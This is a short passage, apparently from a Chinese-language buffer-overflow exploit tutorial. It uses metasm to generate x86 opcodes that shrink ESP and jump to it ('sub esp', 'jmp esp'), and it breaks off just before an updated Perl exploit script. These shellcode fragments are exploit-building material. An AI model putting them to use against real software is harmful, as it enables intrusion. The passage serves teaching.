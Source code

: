 ![12](part4/12.png)

我们需要将 ESP 减少大约 240 字节。再次使用 metasm 获取对应的操作码

```
metasm > sub esp, 100
"\x83\xec\x64"
metasm > sub esp, 40
"\x83\xec\x28"
metasm > jmp esp
"\xff\xe4"
```

这是更新后的 Perl 脚本
